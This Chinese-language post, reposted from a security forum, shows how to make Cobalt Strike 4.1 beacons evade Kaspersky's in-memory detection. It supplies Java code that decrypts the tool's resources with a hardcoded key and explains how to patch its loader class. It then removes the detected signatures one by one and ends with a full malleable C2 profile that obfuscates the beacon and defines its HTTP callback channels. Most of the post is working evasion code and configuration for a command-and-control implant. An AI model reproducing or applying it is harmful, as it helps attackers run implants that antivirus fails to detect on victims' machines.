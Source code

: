> 本文由 [简悦 SimpRead](http://ksria.com/simpread/) 转码， 原文地址 [xz.aliyun.com](https://xz.aliyun.com/t/9224?page=1)

### 1. 起始

在使用 cobalt strike 的过程中，卡巴斯基对默认 cs 4.1 版本生成的 beacon 进行疯狂的内存查杀，特征多达 6 个。本次采用手动定位法确认特征，并通过修改配置达到内存免杀效果。

### 2. 解密

从 cs4.x 开始，对 beacon 等资源进行了加密，需要解密后才能获得原始 dll，为了更快测试修改后的 dll，对 cs 的加载资源代码进行修改，让其可以直接加载未经加密的 beacon.dll（感谢 WBGII 的解密脚本）  
cs 的资源放在 sleeve 文件夹内, cs 的功能代码为 beacon.dll /beacon.x64.dll，是内存查杀重点关注的对象

```
cs读取资源代码如下
```

[![](https://xzfile.aliyuncs.com/media/upload/picture/20210222101614-f0572f82-74b3-1.png)](https://xzfile.aliyuncs.com/media/upload/picture/20210222101614-f0572f82-74b3-1.png)  
对资源进行解密

```
//Author: WBGII
package csdecrypt;
import common.SleevedResource;
import java.io.*;
public class Main {
    public static void saveFile(String filename,byte [] data)throws Exception{
        if(data != null){
            String filepath =filename;
            File file  = new File(filepath);
            if(file.exists()){
                file.delete();
            }
            FileOutputStream fos = new FileOutputStream(file);
            fos.write(data,0,data.length);
            fos.flush();
            fos.close();
        }
    }
    public static byte[] toByteArray(File f) throws IOException {
        ByteArrayOutputStream bos = new ByteArrayOutputStream((int) f.length());
        BufferedInputStream in = null;
        try {
            in = new BufferedInputStream(new FileInputStream(f));
            int buf_size = 1024;
            byte[] buffer = new byte[buf_size];
            int len = 0;
            while (-1 != (len = in.read(buffer, 0, buf_size))) {
                bos.write(buffer, 0, len);
            }
            return bos.toByteArray();
        } catch (IOException e) {
            e.printStackTrace();
            throw e;
        } finally {
            try {
                in.close();
            } catch (IOException e) {
                e.printStackTrace();
            }
            bos.close();
        }
    }
    public static void main(String[] var0) throws Exception {
        byte[] csdecrypt = new byte[]{1, -55, -61, 127, 102, 0, 0, 0, 100, 1, 0, 27, -27, -66, 82, -58, 37, 92, 51, 85, -114, -118, 28, -74, 103, -53, 6};

        SleevedResource.Setup(csdecrypt);
        byte[] var7=null;
        File file = new File("sleeve");     
        File[] fs = file.listFiles();   

        for(File ff:fs){                    
            if(!ff.isDirectory())       
                var7 = SleevedResource.readResource(ff.getPath());
                saveFile("sleevedecrypt\\"+ff.getName(),var7);
                System.out.println("解密成功:"+ff.getName());
        }
    }
}


```

解密后对 cs 的代码进行修改，让其直接可以加载为无加密的资源（资源替换 sleeve 文件夹）

/common/SleevedResource.class

[![](https://xzfile.aliyuncs.com/media/upload/picture/20210222101757-2d841b2c-74b4-1.png)](https://xzfile.aliyuncs.com/media/upload/picture/20210222101757-2d841b2c-74b4-1.png)

去掉解密过程，让其直接读取字节数组后返回，使用 javac 编译，替换原有的 class

### 3. 测试

将解密后的 beacon.dll 载入内存，使用 KAP 查杀，发现其并无 Cobalt.gen 报毒，但是修补后的 payload 存在报毒，遂怀疑为 cs 生成 payload 的过程中往里面加了东西导致该特征出现。  
[![](https://xzfile.aliyuncs.com/media/upload/picture/20210222101857-5132a6a6-74b4-1.png)](https://xzfile.aliyuncs.com/media/upload/picture/20210222101857-5132a6a6-74b4-1.png)  
使用 Beyond Compare 比对原始 dll 和生成后的 payload，发现生成后的 payload 多出很多字符串  
[![](https://xzfile.aliyuncs.com/media/upload/picture/20210222101938-69be7bb4-74b4-1.png)](https://xzfile.aliyuncs.com/media/upload/picture/20210222101938-69be7bb4-74b4-1.png)  
对这些多出的字符串进行删除，发现少了三个报毒，断定其是 Cobalt.gen 报毒的原因，发现默认的 c2 profile 中会添加这些垃圾字符串，并没啥用（坑人），直接删除  
[![](https://xzfile.aliyuncs.com/media/upload/picture/20210222102032-89eb4bd8-74b4-1.png)](https://xzfile.aliyuncs.com/media/upload/picture/20210222102032-89eb4bd8-74b4-1.png)  
删除后，将 payload 载入，发现卡巴不报 Cobalt.gen。前三个特征处理完毕。

### 4. 最后两个

后续两个报毒如下：  
MEM:Trojan.Win32.Cometer.gen  
MEM:Trojan.Win32.SEPEH.gen

使用排列组合对区段进行清除以排查，清除 rdata 和 data 后发现载入内存后不杀。  
发现 rdata 中出现敏感字符串 ReflectiveLoader，遂修改，过了 Cometer.gen

```
transform-x86 {
        strrep "ReflectiveLoader" "misakaloader";
}


```

修改前：  
[![](https://xzfile.aliyuncs.com/media/upload/picture/20210222102247-dac915b2-74b4-1.png)](https://xzfile.aliyuncs.com/media/upload/picture/20210222102247-dac915b2-74b4-1.png)  
修改后:  
[![](https://xzfile.aliyuncs.com/media/upload/picture/20210222102308-e729f9e8-74b4-1.png)](https://xzfile.aliyuncs.com/media/upload/picture/20210222102308-e729f9e8-74b4-1.png)  
继续排查，单独提取 rdata 区段载入内存，发现其报毒 SEPEH，就此确认这个查杀点位于此处。使用工具对其他字符清除，发现其继续报毒。为启发式查杀。随后在 rdata 区域发现如下内容  
[![](https://xzfile.aliyuncs.com/media/upload/picture/20210222102336-f810a964-74b4-1.png)](https://xzfile.aliyuncs.com/media/upload/picture/20210222102336-f810a964-74b4-1.png)  
根据经验猜测修改 Sleep，载入后发现 KAP 不查杀了，看来最后一个特征就是这里了。发现这里是 IAT，准备想办法自行加密 IAT。咨询 WBGII 大佬后，知晓 c2 profile 可以开启加密混淆 IAT，遂使用配置 set obfuscate "true"; 成功 bypass 最后一个报毒。

手动扫描内存  
[![](https://xzfile.aliyuncs.com/media/upload/picture/20210222102429-173dcdb2-74b5-1.png)](https://xzfile.aliyuncs.com/media/upload/picture/20210222102429-173dcdb2-74b5-1.png)

### 5. 提示

由于分阶段的 payload 存在其他特征，请不要使用。生成 stageless payload 自行接管远程加载  
[https://wbglil.gitbook.io/cobalt-strike/](https://wbglil.gitbook.io/cobalt-strike/)  
再次鸣谢 WBGII 大佬的配置帮助  
最后附上 c2 profile 文件

```
# default sleep time is 60s
set sleeptime "10000";
# jitter factor 0-99% [randomize callback times]
set jitter    "0";
# maximum number of bytes to send in a DNS A record request
set maxdns    "255";
# indicate that this is the default Beacon profile
set sample_name "001";

stage {
    set stomppe "true";
    set obfuscate "true";
    set cleanup "true";
    transform-x86 {
        strrep "ReflectiveLoader" "misakaloader";
    }
    transform-x64 {
        strrep "ReflectiveLoader" "misakaloader";
    }
}
# define indicators for an HTTP GET
http-get {
    # Beacon will randomly choose from this pool of URIs
    set uri "/ca /dpixel /__utm.gif /pixel.gif /g.pixel /dot.gif /updates.rss /fwlink /cm /cx /pixel /match /visit.js /load /push /ptj /j.ad /ga.js /en_US/all.js /activity /IE9CompatViewList.xml";
    client {
        # base64 encode session metadata and store it in the Cookie header.
        metadata {
            base64;
            header "Cookie";
        }
    }

    server {
        # server should send output with no changes
        header "Content-Type" "application/octet-stream";

        output {
            print;
        }
    }
}

# define indicators for an HTTP POST
http-post {
    # Same as above, Beacon will randomly choose from this pool of URIs [if multiple URIs are provided]
    set uri "/submit.php";

    client {
        header "Content-Type" "application/octet-stream";

        # transmit our session identifier as /submit.php?id=[identifier]
        id {
            parameter "id";
        }

        # post our output with no real changes
        output {
            print;
        }
    }

    # The server's response to our HTTP POST
    server {
        header "Content-Type" "text/html";

        # this will just print an empty string, meh...
        output {
            print;
        }
    }
}

```